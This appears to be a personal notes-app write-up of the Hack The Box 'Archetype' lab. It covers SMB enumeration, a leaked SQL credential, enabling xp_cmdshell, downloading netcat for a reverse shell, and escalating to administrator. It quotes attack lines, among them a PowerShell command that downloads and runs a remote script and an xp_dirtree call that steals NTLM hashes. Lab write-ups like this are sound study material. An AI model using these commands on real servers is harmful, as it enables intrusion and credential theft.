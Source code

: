 2022-07-21 23:37
source: [HTB](obsidian://open?vault=iswearthisismylast&file=Files%2FArchetype.pdf)
tags: #research #htb #tactics #cybersec #SMB #SQL #microsoft #priv_escal 


# Archetype


## Thought Process

#SMB ?? I went for immediate `nmap -sC -Pn` scan.

```
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-07-22T04:37:42
|_Not valid after:  2052-07-22T04:37:42
|_ssl-date: 2022-07-22T04:38:36+00:00; +2s from scanner time.

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 1s
| ms-sql-info: 
|   10.129.2.224:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-21T21:38:21-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-07-22T04:38:23
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 17.62 seconds
```

smb1 is open with account guest. Also tells me the NetBIOS name

WTF is wrong with [[smbclient]]..
```
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\ARCHETYPE\\WORKGROUP -U guest -I 10.129.2.224 -N -L    1 ⨯
session setup failed: NT_STATUS_LOGON_FAILURE
```
```
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\ARCHETYPE\\WORKGROUP -U guest -I 10.129.2.224 -L -N    1 ⨯
Enter WORKGROUP\guest's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

```

Well at least it worked. had to use `-I` as netBIOS name was `ARCHETYPE` != `10.129.2.224`

Followed what I did for [[Tactics]],
```
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\ARCHETYPE\\backups -U guest -I 10.129.2.224
```

Downloaded `prod.dtsConfig` file,
which gave me 
```xml
<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
```
For SQL, ID=ARCHETYPE PASS=M3g4c0rp123

Hello again, [[Impacket]] , this time [[mssqlclient,py]]
Found this neat thing on #HackTricks 
```bash
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine

#Once logged in you can run queries:
SQL> select @@version;

#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

#Try to enable code execution
SQL> enable_xp_cmdshell

#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

WHY CAN'T LOGIN WHY'
ok this is fucked up. Don't put password when using mssqlclient.py ...

```
python3 mssqlclient.py  ARCHETYPE/sql_svc@10.129.2.224 -windows-auth
```

and then manual password input.


## Summary
set up xp_cmdshell on victim sql serv
listen on 443, 
set up a http server to serve nc64.exe which is netcat for powershell.
    This is served at home directory. If a server connects to my ip and get requests a file at home directory, they will get it.
```
sudo python3 -m http.server 80                 
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.187 - - [23/Jul/2022 22:45:24] code 404, message File not found
10.129.95.187 - - [23/Jul/2022 22:45:24] "GET /nc64.exe HTTP/1.1" 404 -
10.129.95.187 - - [23/Jul/2022 23:24:09] "GET /nc64.exe HTTP/1.1" 200 -

```
From victim sql, use xp_cmdshell to use powershell to connect to http server and download nc64.exe using wget

Then, connect to 443 using nc64.exe (netcat) to open a reverse shell.

We are connected to sql server via user sql_svc
```
C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3 
```

Time to priv escal
same shit. download winPEAS (fucking windows defender not letting download.. thank you but also fuck you)
serve it on my home folder.

winPEAS -> says its vuln for juicy potato.

Not gonna do this for some reason I guess its too hard for very easy box.

check powershell history (ConsoleHost_history.txt kinda like .bash_history)-> find admin login for psexec.py use. -> grab flag from desktop

b91ccec3305e98240082d4474b848528

Not easy. done.